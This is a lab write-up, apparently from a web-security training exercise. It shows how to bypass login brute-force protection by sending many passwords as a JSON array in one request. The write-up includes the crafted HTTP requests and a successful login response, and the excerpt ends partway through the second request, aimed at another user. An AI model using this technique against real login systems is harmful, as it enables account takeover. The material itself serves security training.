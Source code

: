 They are sending login data using `JSON` format. In json we can specify multiple values in a single key.

```json
{
	"username": "wiener",
	"password": [
		"password1",
		"peter"
	]
}
```

In the above JSON data, you can see we specify two passwords. And in some vulnerable servers, they iterate through that values and if any of these are correct they give us a login.

We can try login into the `wiener` user with this JSON data and see if it's vulnerable or not.

Request:
```
POST /login HTTP/2
Host: 0a34000c04639f79c10c5d290037000b.web-security-academy.net
Cookie: session=r62J2HxPkMgcf3G6pTiFbg5PfKSaD3bc
Content-Length: 58
Sec-Ch-Ua: "Chromium";v="111", "Not(A:Brand";v="8"
Sec-Ch-Ua-Platform: "Linux"
Sec-Ch-Ua-Mobile: ?0
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/111.0.5563.65 Safari/537.36
Content-Type: text/plain;charset=UTF-8
Accept: */*
Origin: https://0a34000c04639f79c10c5d290037000b.web-security-academy.net

{"username": "wiener","password": ["password1","peter"]}
```

Response:
```
HTTP/2 302 Found
Location: /my-account
Set-Cookie: session=tUNPZkiL2P1AFHGbCjKOlXEIDwdDeV1T; Secure; HttpOnly; SameSite=None
X-Frame-Options: SAMEORIGIN
Content-Length: 0
```

So this is indeed give us a login so we can bypass sending multiple incorrect requests i.e brute-force protection and get access to `carlos` user account. we just have to send multiple passwords in a single request and if any of these are correct we can get access to its account. So using the LAB wordlist our request for carlos user is like this.

```
POST /login HTTP/2
Host: 0a34000c04639f79c10c5d290037000b.web-security-academy.net
Cookie: session=r62J2HxPkMgcf3G6pTiFbg5PfKSaD3bc
Content-Length: 989
Sec-Ch-Ua: "Chromium";v="111", "Not(A:Brand";v="8"
Sec-Ch-Ua-Platform: "Linux"
Sec-Ch-Ua-Mobile: ?0
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/111.0.5563.65 Safari/537.36
Content-Type: text/plain;charset=UTF-8
Accept: */*
Origin: https://0a34000c04639f79c10c5d290037000b.web-security-academy.net
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: cors
Sec-Fetch-Dest: empty
Referer: https://0a34000c04639f79c10c5d290037000b.web-security-academy.net/login
Accept-Encoding: gzip, deflate
```